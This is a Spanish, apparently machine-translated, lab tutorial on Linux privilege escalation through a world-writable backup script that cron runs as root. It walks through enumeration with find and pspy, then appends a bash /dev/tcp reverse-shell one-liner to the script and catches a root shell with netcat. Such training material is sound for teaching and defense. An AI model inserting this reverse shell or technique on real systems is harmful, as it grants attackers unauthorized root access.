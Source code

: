 # Abuso laboral cron

---

Cron Jobs también se puede configurar para ejecutarse una vez (como en el arranque). Por lo general, se usan para tareas administrativas, como realizar copias de seguridad, limpieza de directorios, etc.`crontab`El comando puede crear un archivo cron, que será ejecutado por el daemon cron en el horario especificado. Cuando se crea, el archivo CRON se creará en`/var/spool/cron`para el usuario específico que lo crea. Cada entrada en el archivo CRONTAB requiere seis elementos en el siguiente pedido: minutos, horas, días, meses, semanas, comandos. Por ejemplo, la entrada`0 */12 * * * /home/admin/backup.sh`Correría cada 12 horas.

La raíz CRONTAB casi siempre es editable por el usuario raíz o un usuario con privilegios completos de sudo; Sin embargo, todavía se puede abusar. Puede encontrar un script mundial que se ejecuta como root e, incluso si no puede leer el crontab para conocer el horario exacto, puede determinar con qué frecuencia se ejecuta (es decir, un script de copia de seguridad que crea un`.tar.gz`archivo cada 12 horas). En este caso, puede agregar un comando al final del script (como una línea de un enlace de Shell Inverse), y ejecutará la próxima vez que se ejecute el trabajo cron.

Ciertas aplicaciones crean archivos cron en el`/etc/cron.d`directorio y puede estar mal configurado para permitir que un usuario no raíz lo edite.

Primero, veamos alrededor del sistema cualquier archivo o directorios escrito. El archivo`backup.sh`en el`/dmz-backups`El directorio es interesante y parece que podría estar ejecutándose en un trabajo de Cron.

  Abuso laboral cron

```shell-session
xnoxos@htb[/htb]$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>
```

Una mirada rápida en el`/dmz-backups`El directorio muestra lo que parece ser archivos creados cada tres minutos. Esto parece ser una gran configuración errónea. Quizás el Sysadmin tenía la intención de especificar cada tres horas como`0 */3 * * *`Pero en cambio escribió`*/3 * * * *`, que le dice al trabajo de Cron que se ejecute cada tres minutos. El segundo problema es que el`backup.sh`Shell Script es el mundo escrito y se ejecuta como root.

  Abuso laboral cron

```shell-session
xnoxos@htb[/htb]$ ls -la /dmz-backups/

total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
-rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz
```

Podemos confirmar que un trabajo cron se está ejecutando usando[PSPY](https://github.com/DominicBreuker/pspy), una herramienta de línea de comandos utilizada para ver los procesos de ejecución sin la necesidad de privilegios raíz. Podemos usarlo para ver comandos administrados por otros usuarios, trabajos cron, etc. Funciona escaneando[procfs](https://en.wikipedia.org/wiki/Procfs).

Vamos a correr`pspy`Y eche un vistazo. El`-pf`Flag le dice a la herramienta que imprima comandos y eventos del sistema de archivos y`-i 1000`le dice que escanee[procfs](https://man7.org/linux/man-pages/man5/procfs.5.html)Cada 1000 ms (o cada segundo).

  Abuso laboral cron

```shell-session
xnoxos@htb[/htb]$ ./pspy64 -pf -i 1000

pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

<SNIP>

2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
```

De la salida anterior, podemos ver que un trabajo cron ejecuta el`backup.sh`guión ubicado en el`/dmz-backups`directorio y creación de un archivo de tarball del contenido del`/var/www/html`directorio.

Podemos mirar el script de shell y agregarle un comando para intentar obtener un shell inverso como root. Si edita un guión, asegúrese de`ALWAYS`Tome una copia del script y/o cree una copia de seguridad de él. También debemos intentar agregar nuestros comandos al final del script para que aún se ejecute correctamente antes de ejecutar nuestro comando de shell inverso.

  Abuso laboral cron

```shell-session
xnoxos@htb[/htb]$ cat /dmz-backups/backup.sh 

#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

Podemos ver que el script solo está tomando un directorio de origen y destino como variables. Luego especifica un nombre de archivo con la fecha y hora actuales de copia de seguridad y crea un tarball del directorio de origen, el directorio de raíz web. Modificemos el script para agregar un[Caparazón de reverso de una línea de una sola](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Code: bash

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

Modificamos el script, de pie un local`netcat`oyente y espera. ¡Efectivamente, en tres minutos, tenemos un caparazón de raíz!

  Abuso laboral cron

```shell-session
xnoxos@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
bash: cannot set terminal process group (9143): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id
id
uid=0(root) gid=0(root) groups=0(root)

root@NIX02:~# hostname
hostname
NIX02
```

Si bien no es el ataque más común, encontramos trabajos cron mal configurados que pueden ser abusados ​​de vez en cuando.